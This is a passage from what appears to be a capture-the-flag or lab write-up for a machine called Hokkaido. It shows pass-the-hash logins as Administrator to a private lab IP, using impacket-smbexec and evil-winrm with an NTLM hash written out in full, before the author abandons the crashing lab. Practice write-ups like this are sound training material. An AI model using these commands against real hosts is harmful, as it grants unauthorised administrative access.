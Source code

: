 We then can use this hash to connect to the target as Administrator using any number of tools. With impacket-smbexec, the command is: `impacket-smbexec -hashes aad3b435b51404eeaad3b435b51404ee:d752482897d54e239376fddb2a2109e4 Administrator@192.168.157.40`

![Hokkaido12.png](/assets/images/Hokkaido/Hokkaido12.png){: .responsive-image}

The command is `evil-winrm -i 192.168.157.40 -u Administrator -H d752482897d54e239376fddb2a2109e4`, with the hash the second part of the hash given in the screenshot above. 

![Hokkaido13.png](/assets/images/Hokkaido/Hokkaido13.png){: .responsive-image}

And so on. Either way, this lab has crashed many times, and I'm done with it at this point. 